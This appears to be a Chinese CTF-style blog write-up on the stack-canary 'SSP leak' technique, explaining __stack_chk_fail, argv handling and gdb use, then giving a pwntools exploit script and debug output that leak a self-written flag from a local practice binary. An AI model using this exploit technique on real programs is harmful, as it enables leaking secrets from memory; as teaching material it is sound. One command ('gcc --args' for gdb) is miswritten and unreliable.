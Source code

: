 ```yaml
---
layout: post
title: 'Hello World'
date: 2019-01-01
tags: helloworld
---
```


> If I were you.

<h2>0x00:函数原理源码</h2>
<p>在程序添加了canary保护后，如果我们读取的bof覆盖了对应的值时，程序就会报错，我们可以利用报错信息。</p>
<p>程序在启动canary保护之后，如果发现canary被修改的话，程序就会执行__stack_chk_fail函数来打印argv[0]指针所指向的字符串，正常情况下，这个指针指向程序名。</p>



```
void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}
void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
                    msg, __libc_argv[0] ?: "<unknown>");//这里简单理解成打印出报错信息即可，也就是可     以泄露
}
```


<h2>0x01:命令行参数</h2>
<p>main(int argc,char *argv[ ])

1.argc为整数

2.argv为指针的指针（可理解为：char **argv or: char *argv[] or: char argv[][]   ，argv是一个指针数组）

　注：main()括号内是固定的写法。

 

3.下面给出一个例子来理解这两个参数的用法：

　假设程序的名称为prog，

   当只输入prog，则由操作系统传来的参数为：

   argc=1,表示只有一程序名称。

   argc只有一个元素，argv[0]指向输入的程序路径及名称：./prog

 

   当输入prog para_1，有一个参数，则由操作系统传来的参数为：

   argc=2，表示除了程序名外还有一个参数。 

   argv[0]指向输入的程序路径及名称。

   argv[1]指向参数para_1字符串。

 

   当输入prog para_1 para_2 有2个参数，则由操作系统传来的参数为：

   argc=3，表示除了程序名外还有2个参数。

   argv[0]指向输入的程序路径及名称。

   argv[1]指向参数para_1字符串。

   argv[2]指向参数para_2字符串。

 

4.void    main(    int    argc,    char    *argv[]    ) 

   char    *argv[]    :    argv 是一个指针数组，他的元素个数是argc，存放的是指向每一个参数的指针</p>

```
    chen@ubuntu:~$ ./ex0 "hello"
```
<p>就命令行参数而言，ex0是程序名第一个参数，hello是命令行的第二个参数，都处存在数组中</p>

```
gcc --args ./ex0 "hello" //args 其实就是把后面的参数当成命令行参数，存在栈上
                          //其实是下图的argv[0]与argv[1],其实是存储在stack上
```
![](https://img2020.cnblogs.com/blog/1919808/202004/1919808-20200401092833920-811767470.png)

```
tel  //栈回溯，有点像解引用
p system //之类的是打印出符号的地址
```

![](https://img2020.cnblogs.com/blog/1919808/202004/1919808-20200401093655669-247767350.png)

<h2>0x03：泄露flag</h2>

![](https://img2020.cnblogs.com/blog/1919808/202004/1919808-20200401165758772-325673403.png)

<p>正常情况下，p __libc_argv应该打印出栈地址，但不出来我就stack 100找到了</p>

![](https://img2020.cnblogs.com/blog/1919808/202004/1919808-20200401170243413-140902987.png)


![](https://img2020.cnblogs.com/blog/1919808/202004/1919808-20200401165917073-1896215639.png)

<p>接下来就是修改栈指针指向flag,之后再栈溢出触发报错</p>

![](https://img2020.cnblogs.com/blog/1919808/202004/1919808-20200401170541963-318442170.png)

<p>就泄露夺得自己写的flag</p>
<p>0x04:脚本层面</p>

```
from pwn import *

#p = gdb.debug(args=['./ex0'],gdbscript='r')

p=process('./ex0')



#context.terminal = ['gnome-terminal', '-x', 'sh', '-c']



context.log_level='debug'

flag = 0x0804A060

payload = p32(0x0804A060)*0x80



gdb.attach(proc.pidof(p)[0],gdbscript='b *0x804853d')



p.sendline(payload)

pause()

p.recvuntil("}") //大部分flag以}结尾，当然这样写p.recvall()或p.recvline()都可以

```
<p>细节说明：此题是想在执行python的那个界面看到flag,所以新打开的界面关了，在空格即可</p>

```
[+] Starting local process './ex0': pid 3095
[DEBUG] Wrote gdb script to '/tmp/pwnseNWO4.gdb'
    file "/home/chen/ex0"
    b *0x804853d
[*] running in new terminal: /usr/bin/gdb -q  "/home/chen/ex0" 3095 -x "/tmp/pwnseNWO4.gdb"
[DEBUG] Launching a new terminal: ['/usr/bin/x-terminal-emulator', '-e', '/usr/bin/gdb -q  "/home/chen/ex0" 3095 -x "/tmp/pwnseNWO4.gdb"']
[+] Waiting for debugger: Done
[DEBUG] Sent 0x201 bytes:
    00000000  60 a0 04 08  60 a0 04 08  60 a0 04 08  60 a0 04 08  │`···│`···│`···│`···│
    *
    00000200  0a                                                  │·│
    00000201
[*] Paused (press any to continue)
```
<p>此处即可在关掉调试界面空格</p>

```
[*] Process './ex0' stopped with exit code -6 (SIGABRT) (pid 3095)
[DEBUG] Received 0x38 bytes:
    '*** stack smashing detected ***: {we_ha_we}\n'
    ' terminated\n'
```
